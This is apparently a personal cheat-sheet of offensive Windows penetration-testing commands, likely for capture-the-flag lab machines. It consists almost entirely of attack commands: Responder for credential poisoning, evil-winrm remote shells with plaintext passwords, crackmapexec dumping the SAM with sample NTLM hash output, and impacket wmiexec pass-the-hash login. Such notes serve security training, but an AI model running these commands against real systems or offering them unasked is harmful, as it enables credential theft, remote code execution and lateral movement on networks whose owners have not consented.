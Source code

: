 # Tools / ORDENAR ESTO


## Responder
`sudo responder -I tun0`

## Evil-Winrm
```
evil-winrm -i [TARGET] -u maya -p m4y4ngs4ri
evil-winrm -i 10.129.136.91 -u administrator -p badminton
```

## crackmapexec
`crackmapexec smb [TARGET] -u maya -p "m4y4ngs4ri" --sam`
...
MB         10.10.11.14     445    MAILING          localadmin:1001:aad3b435b51404eeaad3b435b51404ee:9aa582783780d1546d62f2d102daefae:::
...


## impacket
- <https://github.com/fortra/impacket>

```
impacket-wmiexec localadmin@10.10.11.14 -hashes "aad3b435b51404eeaad3b435b51404ee:9aa582783780d1546d62f2d102daefae"
```